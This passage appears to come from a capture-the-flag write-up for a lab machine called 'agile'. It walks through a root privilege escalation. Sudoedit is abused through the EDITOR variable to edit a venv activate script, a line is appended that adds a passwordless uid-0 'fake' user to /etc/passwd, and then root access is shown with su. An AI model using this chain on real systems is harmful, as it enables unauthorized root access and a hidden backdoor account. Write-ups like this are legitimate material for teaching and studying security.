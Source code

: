 ```text
-rw-rw-r-- 1 root dev_admin 1976 Jul 12 11:57 activate
```

Let's excecute the exploit :

```bash
EDITOR='vim -- /app/venv/bin/activate'  sudoedit -u dev_admin /app/config_test.json
```

At the end of the file, write :

```text
echo "fake::0:0:root:/root:/bin/bash" >> /etc/passwd
```

Then wait for the cron job to execute the script.

The line is aded to passwd :

```text
fake::0:0:root:/root:/bin/bash
```

then we can have a root account without password :

```bash
su - fake
root@agile:~# id
uid=0(root) gid=0(root) groups=0(root)
```

